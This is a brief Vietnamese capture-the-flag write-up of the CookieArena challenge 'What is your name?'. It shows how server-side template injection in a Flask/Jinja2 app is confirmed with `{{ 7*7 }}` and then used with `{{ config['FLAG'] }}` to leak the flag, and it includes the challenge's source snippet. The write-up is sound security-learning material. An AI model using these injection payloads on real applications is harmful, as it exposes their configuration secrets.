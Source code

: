 # CookieArena - Part 2

# **What is your name?**

- Trong phần tag có thể thấy bài này có lỗ hổng SSTI và nó thuộc loại Flask/Jinja2
- Bắt đầu thử với payload: `?name={{ 7*7 }}`

![image.png](CookieArena%20-%20Part%202%2024eede0de67a80c1865fc1777e8f71e2/image.png)

- Có thể thấy nó `Hello 49` là kết quả của `7*7` kia
- Thêm việc được cung cấp code trong phần giới thiệu

```python
if os.path.exists("/flag.txt"):
    with open("/flag.txt", "r") as file:
        app.config['FLAG'] = file.read().strip()
else:
    app.config['FLAG'] = "CHH{ThiS_i5_Y0ur_FaKE_fLaG}"
```

- Thì ta thử với payload: `?name={{ config['FLAG'] }}`

![image.png](CookieArena%20-%20Part%202%2024eede0de67a80c1865fc1777e8f71e2/image%201.png)

---

#